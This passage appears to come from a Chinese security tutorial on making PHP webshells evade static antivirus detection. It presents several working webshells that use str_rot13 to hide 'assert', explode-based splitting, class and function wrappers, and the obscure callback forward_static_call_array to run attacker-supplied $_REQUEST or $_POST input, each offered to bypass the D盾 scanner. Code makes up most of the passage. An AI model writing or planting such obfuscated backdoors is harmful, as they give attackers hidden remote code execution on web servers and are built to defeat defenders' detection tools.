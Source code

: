 不同的版本对应的流量也不太相同，需要具体去分析，这里就不再过多举例了

PHP 木马静态免杀基本是通过各种加密、移位或异或等方式来隐藏关键词。下面就来看看一些常见的免杀技巧

#### 将关键词混淆在类中、函数中

例如：使用 str_rot13 函数, 注意 assert 适用于 PHP5 版本

```
<?php
$c=str_rot13('nffreg');
$c($_REQUEST['x']);
?>
```

str_rot13() 函数对字符串执行 ROT13 编码, 通过编码来最终获得 assert，但是这样是能被查杀出来的，可以将其隐藏在类或函数中

```
<?php
function Sn0w($a){
$b=str_rot13('nffreg');
$b($a);
}
Sn0w($_REQUEST['x']);
?>
```

但是这样还是绕不过 D 盾，那就在函数的外面再套上类来试试

```
<?php
class One{
function Sn0w($x){
$c=str_rot13('n!ff!re!nffreg');
$str=explode('!',$c)[3];
$str($x);
}
}
$test=new One();
$test->Sn0w($_REQUEST['x']);
?>
```

利用 explode 函数来分割字符串，再由 class 封装类来进行绕过 D 盾，D 盾  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195758-da0cce92-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195758-da0cce92-864e-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da324488-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da324488-864e-1.png)

#### 使用冷门的回调函数

比较生僻的回调函数如：forward_static_call_array

```
<?php
    forward_static_call_array(assert,array($_POST[x]));
?>
```
